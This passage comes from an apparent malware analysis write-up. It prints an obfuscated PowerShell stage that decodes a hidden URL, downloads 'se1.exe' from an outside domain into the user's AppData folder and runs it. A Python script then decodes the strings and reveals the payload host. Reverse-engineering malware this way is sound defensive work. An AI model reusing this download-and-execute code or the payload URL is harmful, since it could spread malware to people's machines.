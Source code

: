 ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::TLS12;
    $i = $LM.DownloadData($eh);
    return $i
};

function QXUpF($P){
    $n=4949;
    $s=$Null;
    foreach($WK in $P){
        $s+=[char]($WK-$n)
    };
    return $s
};

function deaNPih(){
    $AVYABiApT = $env:APPDATA + '\';
    $XdOFJCmMx = laiLJMT (QXUpF @(5053,5065,5065,5061,5064,5007,4996,4996,5058,5046,5064,5053,5050,5063,5060,5051,5058,5046,5064,5065,5050,5063,5064,4995,5048,5070,5060,5066,4996,5048,5053,5054,5059,4996,5064,5050,4998,4995,5050,5069,5050));
    $qNfQDXYlR = $AVYABiApT + 'se1.exe';
    WQgtWbWK $qNfQDXYlR $XdOFJCmMx;
    APcZNMgjQ $qNfQDXYlR;;;;
}

deaNPih;
```

The script has several obfuscated strings that are being deobfuscated using the function `QXUpF` by simply going over each number and substracting `4949` from it. here is a quick script that will deobfuscate those strings and print the clear strings:


```python
stringsList = [[4995,5049,5057,5057],[5063,5066,5059,5049,5057,5057,5000,4999,4995,5050,5069,5050],[5027,5050,5065,4995,5036,5050,5047,5016,5057,5054,5050,5059,5065],[5053,5065,5065,5061,5064,5007,4996,4996,5058,5046,5064,5053,5050,5063,5060,5051,5058,5046,5064,5065,5050,5063,5064,4995,5048,5070,5060,5066,4996,5048,5053,5054,5059,4996,5064,5050,4998,4995,5050,5069,5050]]

for string in stringsList:
    tmp = ''
    for char in string:
        tmp += chr(char - 4949)
    print(f'[+] - {tmp}')
```

    [+] - .dll
    [+] - rundll32.exe
    [+] - Net.WebClient
    [+] - https://masherofmasters.cyou/chin/se1.exe


The script will download another file from the same domain previously used for fetching the `.hta` file in the previous powershell script.
# .NET Loader
## Stage 1
the fetched executable (`se1.exe`) is a .NET executable:
